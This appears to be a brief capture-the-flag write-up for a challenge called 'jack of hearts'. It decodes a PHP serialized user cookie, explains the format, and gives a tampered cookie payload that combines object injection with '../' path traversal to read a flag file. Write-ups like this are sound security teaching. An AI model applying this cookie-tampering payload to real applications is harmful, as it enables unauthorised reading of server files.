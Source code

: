 # jack of hearts

> Solved By : thewhiteh4t


    Port : 20022


- User cookie is double base64 encoded, so we double decoded and ended up with the following :


    O:4:"user":3:{s:8:"username";s:4:"user";s:5:"admin";b:0;s:11:"profile_img";s:23:"/var/www/html/guest.png";}


    O   -> Object
    O:4 -> Object of length 4
    :3: -> Object has 3 attributes
    s   -> String data type
    s:8 -> String of length 8
    b   -> Boolean data type
    b:0 -> False


- This was a **PHP Object Injection** challenge
- The goal of this challenge was not to become admin and if we try then the server sends hints or funny responses
- Directly accessing the flag did not work so we can simply use `../`
- Final payload :


    O:4:"user":3:{s:8:"username";s:4:"user";s:5:"admin";b:0;s:11:"profile_img";s:40:"/var/www/html/../../../../../../flag.png";}


![](https://i.imgur.com/JGNO34j.png)


